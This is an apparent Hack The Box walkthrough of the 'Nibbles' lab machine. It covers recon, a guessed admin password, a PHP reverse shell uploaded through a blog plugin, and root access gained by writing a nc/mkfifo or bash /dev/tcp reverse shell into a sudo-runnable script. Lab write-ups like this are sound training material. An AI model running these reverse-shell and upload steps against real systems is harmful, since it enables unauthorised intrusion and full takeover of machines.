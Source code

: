 ```yaml
---
layout: post
title: "Nibbles"
categories: HTB-Walkthrough
---
```


![nibbles](/assets/img/nibbles.png)

Nmap first...Im not sure why, but my first scan only picked up port 22, I tried again and got a better result...

`nmap -sV -Pn 10.10.10.75 |tee -a nib.txt`

Still, there's only 2 ports that seem to be open...

```

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


Browsing to http://10.10.10.75 we see "Hello World" message, but the page is empty, looks like it's in development.
Checking out the source we get a nice surprise....

```

<!-- /nibbleblog/ directory. Nothing interesting here! -->


```

OK, so taking the hint, we give it a go...It takes us to a pretty empty blog page.

Lets crank up gobuster, and see what we can find. 

`gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t50 -x .php,.txt,.html`

```

/sitemap.php (Status: 200)
/index.php (Status: 200)
/content (Status: 301)
/themes (Status: 301)
/feed.php (Status: 200)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
/LICENSE.txt (Status: 200)
/COPYRIGHT.txt (Status: 200)

```

Instantly our eye is drawn to `/admin.php` 
Its a login page.

Since its an admin login, i decided to try admin/admin...it failed...
Sticking with admin username for now, I tried 'nibbles' as the password since it's the name of the box...and it worked!!!


having a poke about, I find we can possibly upload an image file (containing a reverse-shell) to the server...

```
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/
```

We can upload pentestmonkey's [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) which I've saved as evil.php
Just modify the contents to reflect our IP and preferred port for the connection...

Once uploaded, we can execute the shell by browsing to the folder where the server stores it.

`/content/private/plugins/my_image/evil.php`

.....eh? It didn't work....

Sometimes a server will change the name of a file for storage...perhaps because its hardcoded in other php files for convenience.

I try...
```
/content/private/plugins/my_image/image.php
```

and catch the shell on 6969.

```

listening on [any] 6969 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.75] 56026
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 17:44:47 up  1:39,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ whoami
nibbler
$

```

Go to the /home/nibbler directory, and find user.txt

```

$ cat user.txt
b0xxxxxxxxxxxxxxxxxxxxxxxxxxxxd8

```

Looking at the directory contents, we find something interesting...

```

$ ls -la
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Dec 10  2017 user.txt


```

One of the first commands I run when trying to escalate privileges (besides `sudo su`),
is `sudo -l`.
It sometimes lists the commands an user can execute with sudo without having to enter a password...

```

$ sudo -l

sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


```

Looks like we have to unzip `personal.zip`

```

$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
$ ls
personal
personal.zip
user.txt
$ 

```

We find `monitor.sh` inside the unzipped folder...

```

$ cd personal
$ l
/bin/sh: 16: l: not found
$ ls
stuff
$ cd stuff
$ ls
monitor.sh
$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
$ 


```

Looks like anyone can execute monitor.sh, but we know we can execute it as root with the sudo command.
We can also write to the file, 

```

$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 999 >/tmp/f" >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh

```

And we catch the root shell on 999

```

nc -nlvp 999
listening on [any] 999 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.75] 37444
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
b6xxxxxxxxxxxxxxxxxxxxxxxxxxxx8c
# whoami
root
# 
 
```

alternatively we could just replace the file

```


mv monitor.sh monitor-old.sh

cat > monitor.sh << _EOF
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.20/999 0>&1;
_EOF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ sudo /home/nibbler/personal/stuff/monitor.sh


```


again catching the root shell on 999.



:)


